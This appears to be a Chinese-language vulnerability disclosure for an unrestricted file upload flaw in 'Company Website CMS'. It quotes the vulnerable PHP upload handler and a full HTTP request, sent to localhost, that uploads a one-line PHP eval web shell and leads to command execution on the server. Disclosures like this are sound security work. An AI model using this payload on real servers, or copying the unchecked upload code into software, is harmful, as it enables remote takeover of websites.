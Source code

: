 # Company Website CMS

Company Website CMS在创建/dashboard/Services页面，后端代码无限制，导致任意文件上传漏洞。

后端代码为：

```php
$uploads_dir = 'uploads/services';

        $tmp_name = $_FILES["ufile"]["tmp_name"];
        // basename() may prevent filesystem traversal attacks;
        // further validation/sanitation of the filename may be appropriate
        $name = basename($_FILES["ufile"]["name"]);
        $random_digit=rand(0000,9999);
        $new_file_name=$random_digit.$name;

        move_uploaded_file($tmp_name, "$uploads_dir/$new_file_name");
```

可以看出是一个无限制的文件上传，只有文件名被随机值拼接然后移动。

上传页面为：

![image-20250309181419184](https://fpc-mybucket.oss-cn-beijing.aliyuncs.com/images/202503092153234.png)

使用payload如下：

```
POST /vogue/dashboard/createportfolio HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----geckoformboundaryafbda5700eee89a77231823337f34d28
Content-Length: 839
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/vogue/dashboard/createportfolio
Cookie: PHPSESSID=8udk6re20tpda96ncs7of8bb94
Upgrade-Insecure-Requests: 1
Priority: u=0, i

------geckoformboundaryafbda5700eee89a77231823337f34d28
Content-Disposition: form-data; name="port_title"

file upload text
------geckoformboundaryafbda5700eee89a77231823337f34d28
Content-Disposition: form-data; name="port_desc"

texttexttexttexttexttexttexttexttext
------geckoformboundaryafbda5700eee89a77231823337f34d28
Content-Disposition: form-data; name="port_detail"

texttexttexttexttexttexttexttexttexttexttext
------geckoformboundaryafbda5700eee89a77231823337f34d28
Content-Disposition: form-data; name="ufile"; filename="text.php"
Content-Type: application/octet-stream

<?php echo "123"; @eval($_POST[123]); ?>
------geckoformboundaryafbda5700eee89a77231823337f34d28
Content-Disposition: form-data; name="save"


------geckoformboundaryafbda5700eee89a77231823337f34d28--
```

成功上传：

![image-20250309215400638](https://fpc-mybucket.oss-cn-beijing.aliyuncs.com/images/202503092154671.png)

然后在前台看到如下内容：

![image-20250309215418060](https://fpc-mybucket.oss-cn-beijing.aliyuncs.com/images/202503092154106.png)

点进可以看到文件的引入，成功拿到文件名：

![image-20250309181512766](https://fpc-mybucket.oss-cn-beijing.aliyuncs.com/images/202503092154156.png)

拿到文件名，然后访问就可以进行命令执行：

![image-20250309181803933](https://fpc-mybucket.oss-cn-beijing.aliyuncs.com/images/202503092154258.png)

————————